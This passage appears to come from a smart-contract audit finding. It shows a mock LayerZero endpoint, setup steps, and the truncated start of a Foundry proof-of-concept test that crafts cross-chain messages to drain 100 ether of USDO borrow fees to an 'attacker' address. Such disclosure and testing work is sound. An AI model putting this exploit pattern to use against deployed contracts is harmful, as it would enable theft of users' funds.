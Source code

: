 ```solidity
    /// @dev with the same GUID, the Oapp can send compose to multiple _composer at the same time
    /// @dev authenticated by the msg.sender
    /// @param _to the address which will receive the composed message
    /// @param _guid the message guid
    /// @param _message the message
    function sendCompose(address _to, bytes32 _guid, uint16 _index, bytes calldata _message) external {
         // DO NOTHING
        
    }
  
}

```

1. Import and deploy two mock endpoints in the `Usdo.t.sol` file
2. Change the inherited OApp in `Usdo.sol` ’s implementation so that the endpoint variable is not immutable and add a `setEndpoint()` function so that the endpoint configured in `setUp()` can be chainged to the newly deployed endpoints
3. Paste the following test insde `Usdo.t.sol` :

```solidity
function testVuln_USDOBorrowFeesCanBeDrained() public {

        // Change configured enpoints

        endpoints[aEid] = address(mockEndpointV2A);
        endpoints[bEid] = address(mockEndpointV2B);

        aUsdo.setEndpoint(address(mockEndpointV2A));
        bUsdo.setEndpoint(address(mockEndpointV2B));

        
        // Mock generated fees
        deal(address(bUsdo), address(bUsdo), 100 ether);

        ////////////////////////////////////////////////////////
        //                 PREPARE MESSAGES                   //
        ////////////////////////////////////////////////////////

        // NEXT MESSAGE    B --> A      (EXECUTED AS THE nextMsg after the INITIAL  B --> A MESSAGE)            

        SendParam memory sendParamAToBVictim = SendParam({
            dstEid: aEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 100 ether, // IMPORTANT: This must be set to the amount we want to steal
            minAmountLD: 100 ether,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToBVictim = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamAToBVictim = LZSendParam({
            sendParam: sendParamAToBVictim,
            fee: feeAToBVictim,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

```